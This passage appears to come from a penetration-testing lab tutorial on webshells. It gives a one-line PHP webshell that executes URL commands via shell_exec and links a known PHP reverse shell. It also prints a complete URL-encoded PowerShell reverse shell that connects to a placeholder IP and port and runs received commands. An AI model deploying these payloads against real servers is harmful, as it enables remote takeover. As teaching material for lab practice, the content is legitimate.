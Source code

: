 <p>As PHP is still the most common server side scripting language, let's have a look at some simple code for this.</p>
<p>In a very basic one line format:</p>
<p><code>&lt;?php echo "&lt;pre&gt;" . shell_exec($_GET["cmd"]) . "&lt;/pre&gt;"; ?&gt;</code></p>
<p>This will take a GET parameter in the URL and execute it on the system with <code>shell_exec()</code>. Essentially, what this means is that any commands we enter in the URL after <code>?cmd=</code> will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.</p>
<p>Let's see this in action:</p>
<p><img src="https://i.imgur.com/W19gHwL.png" alt /></p>
<p>Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the <code>ifconfig</code> command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. <code>whoami</code>, <code>hostname</code>, <code>arch</code>, etc).</p>
<p>As mentioned previously, there are a variety of webshells available on Kali by default at <code>/usr/share/webshells</code> -- including the infamous <a href="https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" target="_blank">PentestMonkey php-reverse-shell</a> -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.</p>
<p>When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the <code>cmd</code> argument:</p>
<p><code>powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27&lt;IP&gt;%27%2C&lt;PORT&gt;%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22</code></p>
<p>This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.</p>


----------------------------------------

### QUESTIONS:

----------------------------------------

1. Read the WebShells information.


```
```

----------------------------------------
